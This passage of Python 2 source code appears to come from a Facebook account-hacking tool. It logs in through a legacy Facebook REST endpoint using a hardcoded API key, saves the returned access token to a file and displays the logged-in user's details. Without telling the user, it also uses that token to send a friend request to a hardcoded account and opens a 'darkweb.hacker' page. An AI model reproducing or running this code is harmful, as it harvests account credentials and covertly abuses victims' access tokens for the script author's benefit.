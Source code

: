 				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;97mSuccessfully Logged In'
				os.system('xdg-open https://www.facebook.com/access.darkweb.hacker')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;97mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;31mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;31mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;31mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;31mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\x1b[1;97mThere is no internet connection"
		keluar()
	os.system("clear") #Dev:Nazmul
	print logo
	print "  \033[1;97m        ⚡ \033[1;97mLogged in User Info\033[1;97m ⚡"
	print "	   \033[1;97m Name\033[1;97m:\033[1;97m"+nama+"\033[1;97m               "
	print "	   \033[1;97m ID\033[1;97m:\033[1;97m"+id+"\x1b[1;97m              "
	